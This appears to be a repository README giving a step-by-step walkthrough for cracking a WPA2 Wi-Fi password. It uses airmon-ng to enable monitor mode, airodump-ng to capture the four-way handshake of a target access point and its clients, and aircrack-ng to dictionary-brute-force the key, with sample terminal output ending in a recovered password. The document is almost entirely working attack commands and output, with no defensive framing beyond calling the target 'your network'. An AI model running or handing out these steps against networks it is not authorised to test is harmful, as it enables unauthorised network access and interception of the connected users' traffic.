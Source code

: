 

### Crack wifi hotspot

⚠ most of the steps described here are to be run in super user mode

#### _I_ - Prerequisites
check that you have `airocrack` installed on your machine

#### _II_ - check your interfaces 
run  `airmon-ng` and chose a network interface, I used the one that says `[phy0]`. On my machine it was `wlp2s0`.

#### _III_ - Start an interface in monitor mode
run `airmon-ng start <your-interface> 9`
`9` is to start it in monitor mode.

I got this error 

```plaintext
Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode
```

I this case we can run `airmon-ng check kill`

Then we can try starting it again. (be careful the name is likely to have changed. Mine went from `wlp2s0` to `wlp2s0mon`)

#### _IV_ - Capture data

Now you want to get the mac address of the network you're trying to attack.

To do so you can run `airodump-ng <your-interface>`.

Find your network's BSSID (the MAC address of your Wi-Fi access point) and channel from the list.

#### _V_ - Capture packets

Now you will target your network specificaly :

```
airodump-ng -w psk --bssid <your_BSSID> -c <your_channel> <your_wireless_interface>
```

`BSSID` is the mac address of the network you're attacking.
`-w psk` will give us `.psk` files as output.
`your channel` is if you know the channel of the network, if not specified airodump will try different channels continuously.

The output will look like this :

```plaintext
CH  5 ][ Elapsed: 2 mins ][ 2023-12-02 09:05

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 70:FC:8C:35:B0:9B  -42      192      111    0  11  195   WPA2 CCMP   PSK  <Name-of-the-network>

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 70:FC:8C:35:B0:9B  04:52:F1:27:F0:DE  -54   24e-24      0        4
 70:FC:8C:35:B0:9B  40:06:A3:59:7C:F9  -48   24e- 6      0       21
 70:FC:8C:35:B0:9B  1E:88:14:13:08:41  -30    1e- 1      0      157
 70:FC:8C:35:B0:9B  72:DB:3B:E3:E8:C9  -51    1e- 6e     0       52
```

This line is your network :

```plaintext
70:FC:8C:35:B0:9B  -42      192      111    0  11  195   WPA2 CCMP   PSK  <Name-of-the-network>
```

Thoses lines are the devices connected :

```plaintext
70:FC:8C:35:B0:9B  04:52:F1:27:F0:DE  -54   24e-24      0        4
70:FC:8C:35:B0:9B  40:06:A3:59:7C:F9  -48   24e- 6      0       21
70:FC:8C:35:B0:9B  1E:88:14:13:08:41  -30    1e- 1      0      157
70:FC:8C:35:B0:9B  72:DB:3B:E3:E8:C9  -51    1e- 6e     0       52
```

If it is empty you have to be patient and wait that someone connects.

#### _V_ - Wait for handshake

The thing you are waiting for is a 4-way-handshake in order to bruteforce the password locally.

Two ways to know you have got one :

The header will state :

```plaintext
CH 11 ][ Elapsed: 1 min ][ 2023-12-02 09:07 ][ WPA handshake: 70:FC:8C:35:B0:9B
```

A line will state `EAPOL` :

```
70:FC:8C:35:B0:9B  1E:88:14:13:08:41  -25    1e- 1      0      491  EAPOL
```

One you have this you can quit `airodump`.


#### _VI_ - Bruteforce the password

What you could do is to open wireshark, filter for `eapol`, find the hash and bruteforce it with hashcat, but the airocrack suite gives us tools to do it more quickly. Just run :

```plain
aircrack-ng -w password.tkt -b <your-bssid> psk*.cap
```

`password.txt` is your dictionary,
`<your-bssid>` is the mac address of the network.

```plaintext
Reading packets, please wait...
Opening psk-02.cap
Opening psk-01.cap
Opening psk-03.cap
Read 1062 packets.

1 potential targets

Resetting EAPOL Handshake decoder state.

                               Aircrack-ng 1.7

      [00:00:00] 2/12 keys tested (48.49 k/s)

      Time left: 0 seconds                                      16.67%

                       KEY FOUND! [ password1234 ]


      Master Key     : D0 9F 67 F5 88 CD 93 87 B9 C7 93 30 7A 94 CF 49
                       EA A5 78 A9 E2 F3 94 F2 42 A0 41 E8 E4 EF F8 55

      Transient Key  : 94 9C 2F 22 2A BD 03 19 A3 6D 07 0C 71 02 73 27
                       97 22 A3 69 E0 EA CC 95 2B 65 F3 64 AF C3 5A 81
                       5B 38 61 FA AC C8 CE 8B D9 C7 C8 AD 29 99 17 C4
                       23 4C C3 C6 93 6A CA 48 D9 42 2B 0B C6 F3 79 01

      EAPOL HMAC     : D2 9D 64 48 FE AB 29 88 27 F1 4E 35 E9 66 A1 3F
```


[How to crack wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

#### _VII_ - Put your interface back in normal mode

Stop your monitor mode interface : 
`airmon-ng stop <monitor interface>`

Restart your NetworkManager :
`sudo systemctl start NetworkManager`